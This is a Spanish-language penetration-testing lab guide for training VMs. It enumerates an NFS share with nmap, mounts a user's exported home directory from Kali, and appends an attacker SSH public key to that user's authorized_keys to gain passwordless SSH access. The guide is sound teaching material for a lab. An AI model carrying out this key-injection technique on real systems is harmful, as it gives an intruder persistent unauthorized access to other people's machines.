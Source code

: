 # Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasploitable3-ubu1404***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: ***Enumeración NFS***. Ejercicio - Instalar un servidor NFS en ***Metasploitable3-ubu1404***.


## Inyección de claves SSH a través del share.

Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que un usuario ha compartido su directorio ***home***, con el riesgo que eso conlleva.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.13
```

Cuya salida demuestra que se está compartiendo el directorio home del usuario ***vagrant*** en dicha máquina. El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir /tmp/directorio-home-de-la-victima
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.13:/home/vagrant /tmp/directorio-home-de-la-victima
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101822.png)

El punto de montaje se corresponde con el directorio raíz del usuario. Vamos a listarlo porque pretendemos encontrar un directorio muy "interesante" como muestra la imagen.
Nota: Mostramos archivos y carpetas ocultos.

```
ls -l -a /tmp/directorio-home-de-la-victima
```

![listado del home](../img/lab-30-D/202209101827.png)

El directorio oculto ***ssh*** almacena las claves ***públicas***, ***privadas*** y ***autorizadas*** para poder hacer un ***login ssh*** que no requiere contraseña.

Podemos ver los archivos que contiene de la siguiente forma.
```
sudo ls -a -l /tmp/directorio-home-de-la-victima/.ssh
```

La técnica que se usa es la de crear en la máquina de ataque una pareja de claves público/privada. A continuación (por tener permiso ***rw*** en el share) agregaremos la ***clave pública*** al archivo ***authorized_keys*** de la víctima.

Creamos la pareja de claves. En la máquina ***kali*** ejecutamos el comando.
Nota: Pulsamos ***ENTER*** por cada pregunta que nos formule.
```
ssh-keygen
```

El archivo que contiene la clave pública es.
```
ls ~/.ssh/id_rsa.pub
```

Y su contenido es.
```
cat ~/.ssh/id_rsa.pub
```

Ahora simplemente tenemos que añadir la ***clave pública*** al archivo ***authorized_keys*** de la víctima.
```
sudo sh -c "cat /home/antonio/.ssh/id_rsa.pub >>  /tmp/directorio-home-de-la-victima/.ssh/authorized_keys"
```

Podemos comprobar como se ha añadido la clave pública al final del archivo de claves autorizadas.
```
sudo cat /tmp/directorio-home-de-la-victima/.ssh/authorized_keys
```

Lo único que queda por hacer es comprobar que se puede acceder al equipo de la víctima por ***ssh***.
Nota: ***~/.ssh/id_rsa*** es el archivo que contiene la ***clave privada*** que hemos creado antes.
```
ssh -i ~/.ssh/id_rsa antonio@192.168.20.13
```

En la imagen podemos ver como se conecta a través de ***ssh***. Respondemos ***yes*** para realizar la conexión.

![ssh a la victima](../img/lab-30-D/202209101846.png)






